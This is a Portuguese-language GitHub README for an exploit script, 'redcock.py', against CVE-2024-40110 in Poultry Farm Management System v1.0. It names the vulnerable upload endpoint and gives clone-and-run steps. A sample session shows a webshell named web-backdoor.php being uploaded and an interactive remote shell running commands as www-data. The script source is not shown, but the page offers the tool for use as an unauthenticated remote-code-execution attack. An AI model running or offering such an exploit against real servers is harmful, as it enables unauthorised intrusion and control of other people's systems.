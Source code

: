 # CVE-2024-40110 - Poultry Farm Management System v1.0 - Remote Code Execution (RCE)

Exploit para a vulnerabilidade **CVE-2024-40110**, que permite **execução remota de comandos (RCE)** sem autenticação no **Poultry Farm Management System v1.0**.  
Esse exploit realiza o upload de uma webshell via endpoint vulnerável e fornece uma shell interativa para execução de comandos.

---

## 📌 Informações Técnicas

- **Produto vulnerável**: Poultry Farm Management System v1.0
- **Vulnerabilidade**: Upload de arquivo não autenticado → Execução remota de código
- **CVE**: [CVE-2024-40110](https://nvd.nist.gov/vuln/detail/CVE-2024-40110)
- **Endpoint vulnerável**: `/farm/product.php`
- **Autor original**: Jerry Thomas (w3bn00b3r)
- **Modificado por**: [shacrony](https://github.com/shacrony)

---

## ⚙️ Instalação

Clone este repositório:

```bash
git clone https://github.com/shacrony/redcock.py.git
cd redcock.py

python3 -m venv venv
source venv/bin/activate

pip install -r requirements.txt

chmod +x redcock.py

Como usar:

Execute o script:

python3 redcock.py
E preencha as informações quando solicitado:

Alvo (ex: http://10.10.10.10): http://10.10.247.190
Diretório do sistema (ex: /farm): /farm
Exemplo:

[*] Enviando webshell para: http://10.10.247.190/farm/product.php
[+] Webshell enviada com sucesso!
[+] Shell URL: http://10.10.247.190/farm/assets/img/productimages/web-backdoor.php

[!] Conectado à shell remota. Digite seus comandos abaixo.
[!] Digite 'exit' para sair.

shell$ whoami
www-data
